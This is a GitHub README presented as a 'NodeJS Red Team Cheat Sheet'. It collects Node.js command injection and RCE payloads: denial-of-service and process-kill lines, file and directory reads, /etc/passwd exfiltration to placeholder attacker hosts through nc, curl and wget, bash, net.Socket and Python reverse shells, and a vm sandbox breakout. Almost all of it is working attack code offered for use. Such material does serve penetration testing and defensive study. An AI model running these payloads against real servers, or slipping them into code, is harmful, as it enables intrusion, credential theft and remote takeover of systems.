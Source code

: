 # NodeJS Red Team Cheat Sheet

A curated list of NodeJs Command Injection / RCE Payloads.

### Know the evil functions
`eval()`,`setTimeout()`,`setInterval()`, `Function()`, `unserialize()`

### Know your weapons
`fs` , `child_process`, `net`, `http`

`spawn` = returns a stream, returns huge binary data to Node

`exec` = returns a buffer, should be used to return status

### Attack Vectors

Denial of Service
```javascript
while(1)
```
Exit the running process
```javascript
process.exit()
```

Kill Process
```javascript
process.kill(process.pid)
```

Read current working directory
```javascript
res.end(require('fs').readdirSync('.').toString())
```

Read previous directory
```javascript
res.end(require('fs').readdirSync('..').toString())
```

Read file
```javascript
res.end(require('fs').readFileSync(fname))
```
Spawn Magic ( by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
require('child_process').spawn('ls',['-a']).stdout.on('data', function (data) {console.log('own'+ data); });
```
Child exec ( by [@artsploit](https://twitter.com/artsploit) )
```javascript
require('child_process').exec('cat+/etc/passwd+|+nc+attackerip+80')
```

```javascript
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

```javascript
require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attackersip.com')
```
Wget post data (by [@brutelogic](https://twitter.com/brutelogic))
```javascript
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

Using net (by [ibreak.software](http://ibreak.software))
```javascript
var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"attackerip",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Using arguments[1] as response object (by [@OrhanAlbay](https://twitter.com/OrhanAlbay))
```javascript
arguments[1].end(require('child_process').execSync('whoami'))
```
```javascript
arguments[1].end(require('child_process').execSync('cat /etc/passwd'))
```

Bypass stream limits by compressing to gzip (by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
const pwn=require('zlib').createGzip();const inx=require('fs').createReadStream('app.json');const oux = require('fs').createWriteStream('unrestrictive.gz');inx.pipe(pwn).pipe(oux)
```

Sandbox Bypass spawnSync (by [netspi](https://t.co/3D9kWREcUz))
```
var resp = spawnSync('python',
['-c',
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
]
);
print(resp.stdout);
print(resp.stderr);
```

vm module breakout (by [pwnisher](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html))

```
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(xyz);
```

### Need More ?
Repository would be maintained time to time. Feel free to contribute.

### Contact
[@aaditya_purani](https://twitter.com/aaditya_purani)
